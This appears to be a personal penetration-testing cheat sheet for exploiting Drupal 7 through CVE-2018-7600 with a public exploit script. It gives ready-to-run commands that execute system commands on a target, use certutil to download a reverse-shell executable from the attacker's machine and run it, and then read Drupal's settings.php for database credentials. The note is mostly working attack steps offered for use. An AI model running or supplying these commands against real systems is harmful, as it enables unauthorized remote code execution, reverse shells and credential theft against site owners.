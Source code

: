 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Drupal 7
https://github.com/pimps/CVE-2018-7600

There are 2 python files, try each, one may work, one may not.

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c whoami
```

[[1._Reverse Shells (WIN)#MSFVenom]]

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "certutil -urlcache -split -f http://$KALI/reverse64.exe"
```

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "reverse64.exe"
```


#### Check for settings.php for creds
```bash - kali
cat /var/www/html/sites/default/settings.php
```
